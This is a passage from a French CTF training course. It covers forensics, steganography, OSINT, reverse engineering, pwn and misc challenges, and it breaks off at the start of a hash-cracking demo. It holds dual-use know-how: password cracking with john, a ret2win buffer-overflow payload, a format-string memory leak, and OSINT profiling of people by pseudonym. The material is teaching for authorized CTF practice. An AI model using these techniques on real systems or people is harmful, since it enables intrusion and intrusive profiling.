- Garder sous la main CyberChef dans un onglet : l'opération Magic décode une chaîne inconnue en un clic.
- Ne jamais supposer qu'un texte est chiffré : la clé est souvent dans le défi lui-même.

#### Résumé

La catégorie Crypto distingue encodage (base64, hex, ROT13 — pas de clé), chiffrement (César, XOR, RSA — une clé) et hachage (MD5, SHA — une empreinte). Outils : CyberChef pour décoder, `hashid` pour identifier, `john`/`hashcat` pour casser, `openssl` pour RSA.

### (e) Forensics

#### Définition

La catégorie **Forensics** (informatique légale) consiste à **analyser des traces** : un fichier, une image disque, une capture réseau (pcap), un extrait de mémoire RAM. Le flag est caché dans les données, souvent parce que l'organisateur l'a « perdu » quelque part.

**Analogie.** Le forensicien est comme un **inspecteur de la police scientifique** : il n'attaque personne, il examine la scène de crime (le fichier) pour y trouver des indices que d'autres ont laissés.

#### Pourquoi

Les entreprises paient très cher des spécialistes capables d'analyser une capture réseau après une attaque ou une clé USB trouvée dans un parking. En CTF, les défis Forensics sont parmi les plus accessibles pour débuter car ils reposent sur une **méthodologie simple et répétable** : identifier, inspecter, extraire.

#### Les quatre grands types de défis Forensics

| Type | C'est quoi | Réflexe |
| ---- | ---------- | ------- |
| **Fichier suspect** | Un PDF, une image, un document | `file`, `strings`, `binwalk`, `exiftool` |
| **Capture réseau (pcap)** | Un enregistrement de trafic réseau | `tcpdump`, `tshark`, `strings` |
| **Image mémoire (RAM)** | Un dump de la mémoire d'un ordinateur | Volatility |
| **Métadonnées** | Informations cachées dans un fichier | `exiftool` |

#### Images disque et fichiers suspects

1. `file fichier` — révèle la **vraie nature** du fichier (un fichier `.jpg` est peut-être en réalité un ZIP, un PNG, un PDF).
2. `strings fichier` — affiche les chaînes de caractères lisibles. `strings -n 6 fichier` filtre les chaînes de moins de 6 caractères (pour réduire le bruit). Le flag est souvent là, en clair.
3. `binwalk fichier` — détecte des **fichiers emboîtés** (un ZIP, un PNG cachés à l'intérieur d'un autre). `binwalk -e fichier` les extrait automatiquement.
4. `exiftool fichier` — lit les **métadonnées** (auteur, commentaires, GPS, programme utilisé).

#### Le duo `strings` + `binwalk`

```bash
file defi.bin
strings -n 6 defi.bin
binwalk defi.bin
binwalk -e defi.bin
```

Ce duo résout une très large part des défis Forensics faciles. Exemple de sortie attendue :

```text
$ binwalk image_challenge.png
DECIMAL  HEXADECIMAL  DESCRIPTION
0        0x0          PNG image, 8 x 8, 8-bit/color RGB
74       0x4A         Zip archive data ... name: flag.txt
```

#### Métadonnées avec `exiftool`

`exiftool` (Exif = Exchangeable Image File Format, format de métadonnées des photos) affiche les informations techniques d'un fichier image :

```bash
exiftool photo.jpg
```

Des champs comme `Comment`, `Artist`, `Author`, `Title`, `GPS Latitude` peuvent contenir le flag ou des indices. Lecture directe d'un champ :

```bash
exiftool -Comment photo.jpg
```

#### Captures réseau (pcap)

Une capture **pcap** (packet capture) est un enregistrement binaire du trafic réseau. Trois outils :

| Outil | Commande | Usage |
| ----- | -------- | ----- |
| `tcpdump` | `tcpdump -r capture.pcap` | Lister les paquets ; `-A` affiche le contenu en ASCII |
| `tshark` | `tshark -r capture.pcap` | Version ligne de commande de Wireshark ; filtres `-Y` |
| `strings` | `strings capture.pcap` | Extraire les chaînes du trafic, le flag peut y être en clair |

Le réflexe : `tshark -r capture.pcap` pour la vue d'ensemble, puis `tshark -r capture.pcap -Y "http"` pour ne garder que le trafic HTTP, puis `strings` pour chercher le flag directement.

#### Mémoire (RAM) avec Volatility

Une **image mémoire** (`.raw`, `.mem`, `.dump`) est une copie de la RAM (mémoire vive) d'un ordinateur, capturée pendant son fonctionnement. Elle contient les processus, les fichiers ouverts, les mots de passe en clair. **Volatility** (framework open-source d'analyse mémoire) l'explore :

```bash
volatility -f mem.raw imageinfo
volatility -f mem.raw --profile=Win7SP1x64 pslist
volatility -f mem.raw --profile=Win7SP1x64 filescan
volatility -f mem.raw --profile=Win7SP1x64 memdump -p 1234 -D ./
```

- `imageinfo` — détecte le système d'exploitation et le profil.
- `pslist` — liste les processus en cours.
- `filescan` — retrouve les fichiers présents en mémoire.
- `memdump -p <PID>` — extrait la mémoire d'un processus précis, qu'on analyse ensuite avec `strings`.

#### Méthodologie générale (ordonnée par coût/effort)

1. `file` — identifier la vraie nature.
2. `strings` — chercher les chaînes lisibles (avec `-n` pour réduire le bruit).
3. `exiftool` — métadonnées.
4. `binwalk` / `binwalk -e` — fichiers emboîtés.
5. Outils spécialisés selon le type (pcap → tshark, mémoire → volatility).

#### Exemple réel

Un défi fournit `capture.pcap`. `tshark -r capture.pcap` montre un échange HTTP vers `GET /flag.txt`. `tcpdump -r capture.pcap -A` affiche le corps de la réponse HTTP : `FLAG{p4ck3t_4n4lyst}`. Flag soumis.

#### Bonnes pratiques

- Toujours essayer `strings` avec `-n 6` puis sans `-n` ; le flag peut être dans une chaîne courte.
- Vérifier la fin du fichier (`tail -c 200 fichier`) : les flags y sont souvent collés.
- Noter les offsets (`DECIMAL` dans binwalk) : ils montrent où se trouve chaque élément.
- Pour les flags avec caractères spéciaux, `strings -e l fichier` recherche les chaînes encodées en UTF-16 (utilisé par Windows).

#### Résumé

Forensics = analyse de traces : `file` pour identifier, `strings` pour lire, `exiftool` pour les métadonnées, `binwalk` pour extraire, `tcpdump`/`tshark` pour les captures, Volatility pour la mémoire. C'est la catégorie la plus « méthodique » : suivre les étapes dans l'ordre donne le flag.

---

### (f) Stéganographie

#### Définition

La **stéganographie** (stego) est l'art de **cacher des données dans d'autres données** : un message dans une image, un fichier à la fin d'un autre fichier, du texte dans un fichier audio. L'objectif n'est pas de chiffrer mais de **dissimuler** — personne ne doit se douter que le secret existe.

**Analogie.** Le chiffrement est un coffre-fort visible mais impossible à ouvrir. La stéganographie est une pièce secrète **derrière un mur** : personne ne sait qu'elle existe.

#### Pourquoi

La stéganographie est utilisée par les vrais acteurs malveillants pour exfiltrer des données (on cache des fichiers dans des images inoffensives), et par les victimes de ransomware qui retrouvent leurs fichiers dans des images. En CTF, la catégorie Stego t'apprend à **regarder ce qu'on ne te montre pas**.

#### LSB — la technique reine

Le **LSB** (Least Significant Bit, bit de poids faible) est le bit de droite d'un octet (le « dernier bit »). Une image est une suite de pixels, chaque pixel a des valeurs de couleur (Rouge, Vert, Bleu). En modifiant le bit de poids faible de chaque octet, on modifie la couleur **imperceptiblement** — mais on peut y stocker un message : chaque octet du message utilise 8 pixels (un bit par pixel).

```
Message "F" (0x46 = 01000110)  →  8 bits à cacher

PIXEL 1    PIXEL 2    PIXEL 3    ... PIXEL 8
   │          │          │               │
LSB = 0     LSB = 1    LSB = 0   ...  LSB = 0
   │          │          │               │
(0x96)     (0x41)     (0x33→0x32)   (les couleurs changent
  inchangé   inchangé   modifié       de 1 max : invisible)
```

**Outil de référence** : l'outil **zsteg** pour PNG/BMP (`zsteg image.png`), et l'analyseur visuel **StegSolve** qui affiche les plans de bits d'une image.

#### Outils

| Outil | Rôle | Commande |
| ----- | ---- | -------- |
| `steghide` | Cacher/lire des données dans des images ou des sons (avec mot de passe) | `steghide info image.jpg` ; `steghide extract -sf image.jpg` |
| `binwalk` | Détecter/extraire des fichiers emboîtés | `binwalk -e image.jpg` |
| `foremost` | Extraire des fichiers par signatures (carving) | `foremost -i image.jpg` |
| `zsteg` | Analyser le LSB des images PNG/BMP | `zsteg image.png` |
| `strings` | Chercher les données en clair | `strings -n 6 image.jpg` |
| `exiftool` | Métadonnées | `exiftool image.jpg` |
| Audacity / Sonic Visualiser | Analyse des spectrogrammes audio | — |
| `zip2john` + `john` | Casser un ZIP protégé par mot de passe | `zip2john archive.zip > hash.txt` puis `john --wordlist=... hash.txt` |

#### Les types de stéganographie

| Type | Principe | Comment le repérer |
| ---- | -------- | ------------------ |
| **LSB** | Message dans les bits de poids faible | Image PNG/BMP ; rien de visible à l'œil ; `zsteg` le trouve |
| **Fichier emboîté** | Un ZIP/PDF collé à la fin d'une image | `binwalk` détecte la signature ; l'image s'ouvre toujours normalement |
| **Audio** | Message dans un spectrogramme ou inversé | `file` indique WAV/MP3 ; analyse spectrale avec Audacity |
| **Métadonnées** | Commentaire, auteur, GPS | `exiftool` |
| **Texte invisible** | Caractères invisibles (Unicode) entre les mots | Ouvre le texte dans un éditeur hexadécimal |
| **Base64 d'image** | Image encodée dans du texte | `file` sur la chaîne ; `base64 -d` |
| **Protection par mot de passe** | Un fichier (ZIP, stego) protégé | `zip2john`, `john`, ou la passphrase est dans l'énoncé |

#### Méthodologie

1. `file` — quel type de fichier ?
2. `strings` — données en clair ?
3. `exiftool` — métadonnées ?
4. `binwalk` — fichiers emboîtés ?
5. `zsteg` (PNG/BMP) ou `steghide info` (JPEG) — stéganographie LSB/cachée.
6. Si audio : spectrogramme.
7. Si le fichier extrait est protégé : `zip2john` + `john`.

#### Exemple réel

Un défi fournit `photo.jpg`. `steghide info photo.jpg` affiche « Embedded file : flag.txt ». `steghide extract -sf photo.jpg` (sans mot de passe : touche Entrée) extrait `flag.txt` contenant `CTF{st3g0_c0rn3r}`.

#### Bonnes pratiques

- `steghide` peut **refuser** d'extraire si le mot de passe est faux, mais accepter la passphrase vide (Entrée) : c'est le cas le plus fréquent dans les défis faciles.
- Toujours tester `binwalk -e` avant de passer aux techniques avancées : les fichiers emboîtés sont très courants.
- Les données extraites peuvent être elles-mêmes chiffrées ou encodées : applique la méthode Crypto ensuite.

#### Résumé

La stéganographie cache des données dans des images (LSB, fichiers emboîtés), des sons (spectrogrammes) et des métadonnées. Outils : `binwalk`, `foremost`, `steghide`, `zsteg`, `exiftool`, `strings`, et `zip2john`/`john` pour les archives protégées.

---

### (g) OSINT

#### Définition

**OSINT** (Open Source INTelligence, « renseignement en sources ouvertes ») est la collecte et la corrélation d'informations **publiques** : sites web, réseaux sociaux, photos, registres, bases de données. En CTF, un défi OSINT te donne une photo, un pseudonyme ou un lieu, et tu dois trouver le flag grâce à la recherche.

**Analogie.** OSINT, c'est le travail du **détective dans un roman policier** : chaque indice public (un article, une photo, une conversation) est une pièce d'un puzzle que tu reconstruis en les croisant.

#### Pourquoi

L'OSINT est devenu une compétence stratégique : les entreprises font de la veille sur leurs concurrents, les équipes de réponse aux incidents retrouvent les attaquants via leurs traces publiques, et les journalistes enquêtent sur des faits publics. En sécurité, l'OSINT sert **avant** l'attaque : c'est la phase de renseignement de la méthodologie de pentest du niveau 6.

#### Techniques et outils

| Technique | Principe | Outil / méthode |
| --------- | -------- | --------------- |
| **Recherche inversée d'images** | Uploader une image pour trouver où elle apparaît ailleurs | Google Images (icône appareil photo), TinEye, Yandex Images |
| **Réseaux sociaux** | Retrouver un profil, des posts, des photos | Moteurs de recherche, recherche par pseudonyme, archives |
| **Géolocalisation** | Situer un lieu à partir d'une photo ou d'indices | Indices visuels (panneaux, relief, langue, horloges), Google Maps, Street View |
| **Métadonnées** | Lire les données EXIF d'une photo | `exiftool photo.jpg` (auteur, GPS) |
| **Recherche de pseudonymes** | Vérifier où un pseudo est utilisé | `sherlock <pseudo>` |
| **Collecte d'informations sur un domaine** | Emails, sous-domaines, technologies | `theHarvester -d exemple.com -b all`, crt.sh |
| **Archives web** | Voir une version passée d'un site | Wayback Machine (web.archive.org) |

#### Sherlock — trouver tous les profils d'un pseudonyme

```bash
sherlock pseudonyme
```

L'outil teste la présence de ce pseudonyme sur des centaines de plateformes et liste celles où il existe. En CTF, cela peut te mener vers un profil contenant le flag ou un indice.

#### Exemple réel

Un défi OSINT fournit une photo d'un panneau de rue avec un fond reconnaissable (montagne, drapeau, style d'architecture). Tu fais une recherche inversée sur Google Images : aucun résultat. Tu étudies les indices : une horloge sur un bâtiment, une langue sur un panneau, une plaque d'immatriculation. Tu recherches le lieu avec Google Maps et tu retrouves la rue exacte. Le flag est le nom de la rue ou les coordonnées GPS.

#### Méthodologie

1. **Lire l'énoncé** : qu'est-ce qu'on te demande ? (trouver un lieu, une personne, un site).
2. **Énumérer les indices** : chaque élément visible/texte est un indice.
3. **Recherche inversée d'images** si tu as une photo.
4. **Corréler** : croiser les indices (lieu + personne + date).
5. **Vérifier** avec Google Maps / Street View avant de soumettre le flag.

#### Bonnes pratiques

- Noter **tous** les indices même anodins : le flag combine souvent plusieurs éléments.
- Tester la recherche inversée sur plusieurs moteurs (Google, TinEye, Yandex) : leurs index diffèrent.
- L'OSINT exige de la **patience** : un indice à la fois, et la précision vient en croisant les sources.

#### Résumé

OSINT = renseignement en sources ouvertes : recherche inversée d'images, réseaux sociaux, géolocalisation, métadonnées EXIF et archives web. Outils : Google Images/TinEye, `exiftool`, `sherlock`, `theHarvester`, Wayback Machine.

---

### (h) Reverse Engineering

#### Définition

Le **Reverse Engineering** (RE, ingénierie inverse) consiste à **comprendre ce que fait un programme** sans avoir son code source. Tu disposes d'un **binaire** (un fichier exécutable), et tu dois découvrir son comportement, son mot de passe, son algorithme — pour récupérer le flag.

**Analogie.** C'est comme recevoir une montre mécanique fermée : sans plan, tu dois l'ouvrir, observer les engrenages et comprendre comment elle fonctionne. Tu ne réécris pas la montre, tu la *lis*.

#### Pourquoi

Le RE est essentiel en cybersécurité : les analystes de malwares décompilent les programmes malveillants pour comprendre leur fonctionnement, les équipes de sécurité inspectent les binaires suspects, et les chercheurs vérifient qu'un logiciel ne fait pas ce qu'il prétend. En CTF, le RE est aussi la porte d'entrée du **Pwn** : on ne peut pas exploiter un programme qu'on ne comprend pas.

#### Les outils fondamentaux

| Outil | Rôle | Commande d'exemple |
| ----- | ---- | ------------------ |
| `file` | Type et architecture du binaire | `file crackme` |
| `strings` | Chaînes de caractères du binaire | `strings -n 6 crackme` |
| `objdump` | Désassemblage (traduction en langage assembleur) | `objdump -d crackme` |
| `nm` | Liste des symboles (fonctions, variables) | `nm crackme` |
| `gdb` | Débogueur : exécuter pas à pas, inspecter | `gdb -q ./crackme` |
| `checksec` | Protections du binaire (via pwntools) | `checksec crackme` |
| Décompilateurs | Reconstruire du pseudo-code | Ghidra (gratuit), radare2, Cutter, ou en ligne : dogbolt.org |

#### `strings` en premier — toujours

Sur un **crackme** (programme « devine le mot de passe »), `strings` révèle souvent les messages du programme : « Bien joué ! », « Échec… », et parfois **le mot de passe lui-même** s'il est stocké en clair. Toujours essayer `strings` avant tout désassemblage : c'est l'étape à coût quasi nul.

#### `objdump` — lire le désassemblage

```bash
objdump -d crackme
```

La sortie montre le code **assembleur** : des instructions comme `mov` (déplacer), `cmp` (comparer), `je`/`jne` (sauter si égal / si différent), `xor` (ou exclusif). La logique de vérification d'un mot de passe apparaît comme une série de comparaisons.

#### `gdb` — le débogueur

`gdb` (GNU Debugger) permet de lancer le programme en **contrôlant son exécution** : mettre des points d'arrêt, lire les registres et la mémoire, avancer pas à pas.

```bash
gdb -q ./crackme
```

Commandes de base dans gdb :

| Commande gdb | Effet |
| ------------ | ----- |
| `info functions` | Liste les fonctions du programme |
| `disassemble <nom>` | Désassemble une fonction |
| `break main` | Pose un point d'arrêt au début de `main` |
| `run <arguments>` | Lance le programme avec des arguments |
| `stepi` / `nexti` | Avance d'une instruction |
| `x/s <adresse>` | Affiche la chaîne de caractères à une adresse |
| `x/20bx <adresse>` | Affiche 20 octets en hexadécimal |
| `info registers` | Affiche les registres du processeur |
| `continue` | Reprend l'exécution jusqu'au prochain arrêt |
| `quit` | Quitte gdb |

#### Décompilateurs — le raccourci moderne

Les **décompilateurs** traduisent le binaire en **pseudo-code** proche du langage original. **Ghidra** (développé par la NSA, gratuit) et l'outil en ligne **dogbolt.org** (qui agrège plusieurs décompilateurs) te donnent une vue « presque source » du programme. Pour un crackme simple, un décompilateur en ligne suffit : tu vois directement la comparaison du mot de passe.

#### Méthodologie

1. `file crackme` — type de binaire, architecture (x86, x64, ARM).
2. `strings -n 6 crackme` — indices et messages.
3. `nm crackme` — symboles : y a-t-il une fonction `check_password`, `flag`, `validate` ?
4. `objdump -d crackme` — lire le désassemblage de la fonction intéressante.
5. `gdb` — si besoin, exécuter pas à pas pour suivre la comparaison.
6. Décompilateur (Ghidra ou dogbolt.org) pour une vue plus claire.
7. Déduire le mot de passe, l'exécuter, obtenir le flag.

#### Exemple réel

Un crackme affiche « Usage: ./crackme <mot-de-passe> ». `strings` ne montre pas de mot de passe en clair (il est « obfusqué », caché). `objdump -d crackme` révèle dans la fonction `check_password` une instruction `xor $0x55,%eax` suivie d'une comparaison : le mot de passe est le résultat de chaque octet du tableau XORé avec 0x55. On calcule le mot de passe, on l'exécute : « Bien joué ! ». (C'est exactement la démo 5 de ce cours.)

#### Bonnes pratiques

- Toujours `strings` en premier : le flag est très souvent en clair.
- Lire le **nom des fonctions** (`nm` ou `info functions`) : les noms parlants (`check_password`, `print_flag`) sont des cadeaux.
- Ne pas mémoriser l'assembleur : savoir **repérer** `cmp` (comparaison) et `xor` (ou exclusif) suffit pour 80 % des crackmes faciles.
- Le programme peut demander un mot de passe **et** afficher un flag différent : le flag est dans la sortie quand le mot de passe est correct.

#### Résumé

RE = lire un programme sans son code : `file`, `strings`, `nm`, `objdump -d`, `gdb`, et les décompilateurs (Ghidra, dogbolt.org). Pour un crackme, le mot de passe se trouve dans les comparaisons (`cmp`) et les XOR du code désassemblé.

---

### (i) Pwn / Exploitation

#### Définition

**Pwn** (argot internet dérivé de « own », « posséder ») est la catégorie des défis d'**exploitation de vulnérabilités mémoire** : il faut faire exécuter à un programme un comportement qu'il ne devrait pas avoir (ouvrir un shell, appeler une fonction cachée, lire un fichier). Le défaut classique est le **buffer overflow** (débordement de tampon).

**Analogie.** Imagine un verre (le tampon) posé au bord d'une table. On te demande de verser de l'eau (des données) dedans. Si tu verses trop, l'eau déborde sur la table et coule sur les objets posés derrière (les données du programme). Si tu verses **très** précisément, tu peux faire basculer ce qui se trouve derrière et changer le comportement du programme.

#### Pourquoi

Les vulnérabilités mémoire (buffer overflow, format string, use-after-free) ont permis les plus grandes attaques de l'histoire (vers, prises de contrôle de serveurs). Même si les langages modernes protègent mieux, de nombreux systèmes critiques tournent toujours en C/C++ — et les attaquants ciblent leurs failles. Comprendre Pwn, c'est comprendre pourquoi les développeurs doivent écrire du code sûr.

#### Les protections — `checksec`

Avant de penser à exploiter, on vérifie les **protections** du binaire avec `checksec` (fourni par pwntools) :

| Protection | Effet | Conséquence en CTF |
| ---------- | ----- | ------------------ |
| **ASLR** (Address Space Layout Randomization) | Adresses mémoire aléatoires à chaque exécution | Les adresses changent : impossible de les prévoir au hasard |
| **NX** (No-eXecute) | La pile n'est pas exécutable | Impossible d'exécuter un shellcode (code machine) placé sur la pile |
| **Canary** | Une valeur « sentinelle » détecte les débordements | Le programme se termine si la sentinelle est écrasée : il faut l'éviter |
| **PIE** (Position Independent Executable) | Le binaire est chargé à une adresse aléatoire | Les adresses internes sont aléatoires |

**Le défi pédagogique ret2win.** Pour débuter, les plateformes créent des défis sans ASLR/PIE : une fonction `win()` (qui imprime le flag) existe déjà dans le programme, et il suffit de **rediriger l'exécution** vers elle en écrasant la pile. C'est le défi classique « ret2win » (retour vers win). Le but est pédagogique : tu modifies l'adresse de retour pour sauter dans la fonction `win()`, sans aucune destruction.

#### pwntools — la bibliothèque Python du pwn

**pwntools** est une bibliothèque Python qui automatise l'interaction avec les programmes et les réseaux :

```python
from pwn import *

p = process("./crackme")            # lancer un programme local
p = remote("challenge.ctf", 1337)   # se connecter à un service distant
p.sendline(b"AAAA")                 # envoyer une ligne
p.recvline()                        # recevoir une ligne
p.interactive()                     # passer en mode interactif
```

Elle fournit aussi `cyclic()` pour générer des motifs de débordement et `cyclic_find()` pour repérer l'offset (décalage) exact du crash :

```python
from pwn import *
cyclic(100)          # génère un motif de 100 octets, ex: b'aaaabaaacaaa...'
cyclic_find(b'baaa') # retrouve à quelle position ce motif se trouve
```

#### Buffer overflow — les étapes pédagogiques

1. **Identifier le point d'entrée** : une fonction qui lit sans vérifier la taille (`gets()`, `strcpy` sont les coupables classiques).
2. **Mesurer l'offset** : envoyer `cyclic(200)` au programme ; quand il crashe, le message d'erreur indique l'adresse écrasée ; `cyclic_find()` donne la taille du tampon avant l'adresse de retour.
3. **Construire le payload** : `b"A"*offset + p64(adresse_de_win)` — l'adresse de la fonction `win()` encodée en petit-boutiste (little-endian, l'ordre des octets utilisé par les processeurs x86).
4. **Envoyer et récupérer le flag** via `p.interactive()`.

#### Format string (chaîne de format) — en bref

Une **format string** est une vulnérabilité où l'utilisateur contrôle le format d'une fonction `printf()`. En envoyant `%x` (affiche un nombre hexadécimal de la pile) ou `%n` (écrit en mémoire), on peut **lire la mémoire** (et potentiellement y écrire) :

```
%x.%x.%x.%x.%x
```

En CTF, `%x` à répétition « fuit » (révèle) le contenu de la pile, où le flag est parfois stocké.

#### Méthodologie

1. `file binaire` — architecture.
2. `checksec binaire` — protections : si NX est actif, pas de shellcode sur la pile ; si PIE est absent, l'adresse de `win()` est fixe.
3. `nm binaire` ou `info functions` — trouver une fonction intéressante (`win`, `flag`, `system`).
4. Lire le code avec `objdump`/`gdb` — trouver la lecture vulnérable.
5. Mesurer l'offset avec `cyclic`.
6. Construire le payload avec pwntools et `p64()`.
7. Envoyer, obtenir le flag.

#### Exemple réel

Sur une machine d'entraînement, le binaire `vuln` affiche « Enter your name: ». `checksec` montre : NX activé, PIE absent. `nm vuln` révèle la fonction `win` à l'adresse `0x401186`. Le tampon fait 64 octets. Le payload `b"A"*64 + p64(0x401186)` redirige l'exécution vers `win()`, qui imprime le flag.

#### Bonnes pratiques

- **Pédagogie d'abord** : les défis Pwn s'entraînent sur des binaires de test, jamais sur des programmes réels. Le but est de comprendre, pas de casser.
- Toujours lancer `checksec` avant de réfléchir : il détermine toute la stratégie.
- `p64()` et `p32()` (paquets de pwntools) encodent les adresses dans le bon format (petit-boutiste).
- Travailler avec un **script Python** reproductible plutôt que des commandes tapées à la main : le payload est fragile, il doit être exact.
- Ne jamais envoyer de payload sur un service sans être certain de l'autorisation (plateforme CTF uniquement).

#### Résumé

Pwn = exploitation mémoire : buffer overflow (faire déborder un tampon pour rediriger l'exécution), format string (fuir la mémoire via `%x`), ret2win (sauter vers une fonction cachée). Protections à vérifier avec `checksec` : ASLR, NX, canary, PIE. Outil central : pwntools.

---

### (j) Miscellaneous (Misc)

#### Définition

La catégorie **Misc** (miscellaneous, « divers ») regroupe tout ce qui ne rentre pas ailleurs : programmation, jeux, encodages, QR codes, culture, logique, étonnements. C'est la catégorie fourre-tout, souvent la plus amusante — et celle qui teste ta **créativité** et ta **persévérance**.

**Analogie.** Au musée, toutes les œuvres sont classées par époque et par courant… sauf quelques pièces « hors catégorie ». En CTF, le Misc est cette salle hors catégorie : il peut contenir n'importe quoi.

#### Pourquoi

Le Misc te force à sortir de tes automatismes : tu ne peux pas appliquer « la méthode Web » ou « la méthode Crypto ». Il développe la capacité à **résoudre des problèmes ouverts** — exactement ce qui distingue un bon ingénieur sécurité d'un technicien qui applique des recettes.

#### Sous-catégories fréquentes

| Type | Principe | Réflexe |
| ---- | -------- | ------- |
| **Programmation** | Écrire un script qui interagit avec un service (robot, calculs répétés) | Python + pwntools ou `socket` ; automatiser |
| **QR codes** | Lire un code QR | `zbarimg code.png` ; décoder avec un lecteur |
| **Encodages en chaîne** | Une donnée encodée plusieurs fois (base64→hex→ROT13) | CyberChef ; répéter jusqu'à la fin |
| **Jeux** | Contrôler un robot, gagner à un mini-jeu | Lire la logique, automatiser, ou trouver le flag directement dans la page |
| **Culture / logique** | Énigmes, anagrammes, références | Lire l'énoncé plusieurs fois ; les indices sont dans le texte |
| **Fichiers étranges** | Extension bizarre, format inattendu | `file` révèle la vraie nature |
| **Compression** | Fichier dans un fichier dans un fichier | `file` + `binwalk` + décompression répétée |

#### Exemple réel

Un défi Misc affiche un serveur qui pose « 3 + 5 = ? » et répète la question 100 fois. Répondre à la main est impossible. Un script Python avec pwntools lit la question, calcule, envoie la réponse, et répète 100 fois. Au bout du compte, le serveur envoie le flag.

```python
from pwn import *

p = remote("challenge.ctf", 1337)
for _ in range(100):
    ligne = p.recvline().decode()
    a, b = map(int, ligne.strip(" =?\n").split(" + "))
    p.sendline(str(a + b))
p.interactive()
```

#### Méthodologie

1. Lire l'énoncé **trois fois** : les indices sont souvent cachés dans les mots.
2. Identifier le type : programme ? jeu ? encodage ? fichier étrange ?
3. Si encodage : CyberChef, répéter les opérations jusqu'au flag.
4. Si programme/jeu : automatiser avec Python.
5. Si fichier : `file`, `strings`, `binwalk`.

#### Bonnes pratiques

- La simplicité gagne : avant de chercher une solution complexe, vérifie que le flag n'est pas en clair dans la page, le code source ou les commentaires.
- L'énoncé est un indice : chaque mot compte.
- Automatiser dès que la tâche est répétitive : c'est un travail de programmation, pas de patience.

#### Résumé

Misc = tout le reste : programmation automatisée, QR codes, encodages en chaîne, jeux, logique. Réflexe : lire l'énoncé, identifier le type, automatiser avec Python, décoder avec CyberChef.

## Visualisation

> ⚠️ **Légal** — Les schémas ci-dessous décrivent des méthodes d'analyse et de résolution à appliquer exclusivement dans le cadre de plateformes CTF autorisées.

### Workflow de résolution d'un challenge

```mermaid
flowchart TD
    A[1. Lire l'énoncé<br/>catégorie, format de flag, indices] --> B[2. Recon rapide<br/>source HTML, robots.txt, curl]
    B --> C{3. Identifier la catégorie}
    C -->|Web| D[Analyser l'application<br/>inputs, cookies, code source]
    C -->|Crypto| E[Observer la donnée<br/>CyberChef Magic, hashid]
    C -->|Forensics| F[file → strings → exiftool<br/>→ binwalk → outils dédiés]
    C -->|Stego| G[strings → binwalk → zsteg<br/>→ steghide → spectrogramme]
    C -->|OSINT| H[Indices → recherche inversée<br/>→ corrélation → vérification]
    C -->|RE| I[file → strings → objdump<br/>→ gdb / décompilateur]
    C -->|Pwn| J[file → checksec → nm<br/>→ payload pwntools]
    C -->|Misc| K[Lire l'énoncé → automatiser<br/>→ CyberChef → logique]
    D --> L[Flag trouvé]
    E --> L
    F --> L
    G --> L
    H --> L
    I --> L
    J --> L
    K --> L
    L --> M[4. Vérifier le format<br/>CTF{...} exactement]
    M --> N[5. Soumettre et noter<br/>le write-up de la solution]
```

### Schéma des types de CTF



### Encodage vs chiffrement vs hachage — la carte mentale

```
      donnée claire "FLAG{...}"
        │
        │   ┌──────────────────────────────┐
        ├──►│ ENCODAGE  (aucune clé)        │
        │   │ base64, hex, ROT13, César     │
        │   │ "RkxBRw==" / "SYNT{"          │
        │   │ → se décode immédiatement     │
        │   └──────────────────────────────┘
        │
        │   ┌──────────────────────────────┐
        ├──►│ CHIFFREMENT (une clé)        │
        │   │ XOR, Vigenère, RSA, AES      │
        │   │ → il faut la clé             │
        │   └──────────────────────────────┘
        │
        │   ┌──────────────────────────────┐
        └──►│ HACHAGE (empreinte)          │
            │ MD5, SHA-1, SHA-256          │
            │ → irréversible, se casse     │
            │   par dictionnaire           │
            └──────────────────────────────┘
```

### Tableau catégorie → outils → compétence

| Catégorie | Outils principaux | Compétence développée |
| --------- | ----------------- | --------------------- |
| Recon | `curl`, `gobuster`, `ffuf`, `dig`, `subfinder`, dorks | Cartographier une cible |
| Web | `curl`, `sqlmap`, Burp Suite, CyberChef, `hashcat -m 16500` | Exploiter les failles applicatives |
| Crypto | CyberChef, `hashid`, `john`, `hashcat`, `openssl`, `xxd`, `tr`, `base64` | Manipuler données et clés |
| Forensics | `file`, `strings`, `exiftool`, `binwalk`, `tcpdump`, `tshark`, Volatility | Analyser des traces |
| Stego | `binwalk`, `foremost`, `steghide`, `zsteg`, `exiftool`, Audacity | Révéler le caché |
| OSINT | Google Images, TinEye, `sherlock`, `theHarvester`, Wayback Machine | Corréler l'information publique |
| RE | `file`, `strings`, `nm`, `objdump`, `gdb`, Ghidra, dogbolt.org | Lire un programme sans source |
| Pwn | `checksec`, `nm`, `gdb`, pwntools (`cyclic`, `p64`, `p32`) | Exploiter la mémoire |
| Misc | Python, pwntools, CyberChef, `zbarimg`, `file` | Résoudre des problèmes ouverts |

### Stéganographie LSB — le schéma des bits

```
Image = suite de pixels → chaque pixel a 3 octets : R (rouge), V (vert), B (bleu)

PIXEL 1          PIXEL 2          PIXEL 3          PIXEL 4
┌──────────┐    ┌──────────┐    ┌──────────┐    ┌──────────┐
│ R  V  B  │    │ R  V  B  │    │ R  V  B  │    │ R  V  B  │
│1001011[0]│    │0101011[1]│    │0011000[0]│    │1111110[0]│
└──────────┘    └──────────┘    └──────────┘    └──────────┘
      0               1               0               0

Bits extraits :  0  1  0  0  ...  = premiers bits de l'octet du message
   (0 1 0 0 = 0x4 = début de "E" en ASCII)

Message complet : 8 pixels par octet → 8 octets pour "CYBER" :
"CYBER" → 0x43 0x59 0x42 0x45 0x52 → 40 bits → 40 pixels modifiés

Chaque bit modifié ne change la couleur que de ±1 sur 256 niveaux :
l'œil humain ne voit rien, mais zsteg / un script Python lit les LSB.
```

---

## Démonstration

> ⚠️ **Légal** — Les cinq démonstrations se font sur `127.0.0.1` (ton ordinateur), sur des fichiers que tu crées, ou sur des plateformes CTF autorisées. Ne lance jamais ces commandes contre une cible sans autorisation.

---

### Démo 1 — Identifier un hash avec `hashid` puis le casser avec `john`

**Contexte.** Sur une plateforme CTF, tu trouves un fichier `hash.txt` contenant une ligne de 32 caractères hexadécimaux. Tu ne sais pas quel algorithme a produit cette empreinte. Tu dois l'identifier puis retrouver le mot de passe.

**Objectif.** Identifier le type de hash, puis retrouver le mot de passe original avec une attaque par dictionnaire.

**Préparation du fichier** (le vrai challenge te fournit le hash ; ici on le fabrique pour l'exercice) :

```bash
echo -n "password123" | md5sum
```

Sortie :

```text
482c811da5d5b4bc6d497ffa98491e38  -
```

On copie le hash dans `hash.txt` :

```bash
echo "482c811da5d5b4bc6d497ffa98491e38" > hash.txt
```

**Étape 1 — Identifier le type de hash :**

```bash
hashid -m -j hash.txt
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
